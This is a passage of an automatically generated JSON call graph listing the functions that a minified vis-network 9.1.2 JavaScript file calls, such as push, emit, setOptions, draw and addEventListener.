"static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getConnectedId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clusterByEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clusterByEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getConnectedId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_backupEdgeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getClusterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getClusterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_openChildCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "releaseFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBaseEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createClusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_backupEdgeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getClusterNodeForNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getClusterNodeForNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "openCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_determineBrowserMethod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resizeNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_requestNextFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_requestNextFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawArrows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawExternalLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawSelectionBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawArrows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cleanUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unobserve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "attachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "detachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindHammer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onTap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDoubleTap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onHold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDragEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onPinch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onMouseWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onRelease"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_prepareValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_prepareValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_determinePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertCanvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertCanvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 